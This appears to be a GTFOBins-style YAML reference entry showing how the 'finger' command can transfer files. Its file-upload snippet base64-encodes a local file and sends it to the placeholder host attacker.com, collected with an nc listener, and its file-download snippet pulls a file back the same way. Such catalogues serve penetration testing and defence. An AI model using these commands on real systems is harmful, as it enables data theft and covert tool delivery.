 description: |
  `finger` hangs waiting for the remote peer to close the socket.
functions:
  file-upload:
    - description: Send a binary file to a TCP port. Run `sudo nc -l -p 79 | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        RHOST=attacker.com
        LFILE=file_to_send
        finger "$(base64 $LFILE)@$RHOST"
  file-download:
    - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | sudo nc -l -p 79` on the attacker box to send the file.
      code: |
        RHOST=attacker.com
        LFILE=file_to_save
        finger x@$RHOST | base64 -d > "$LFILE"
---
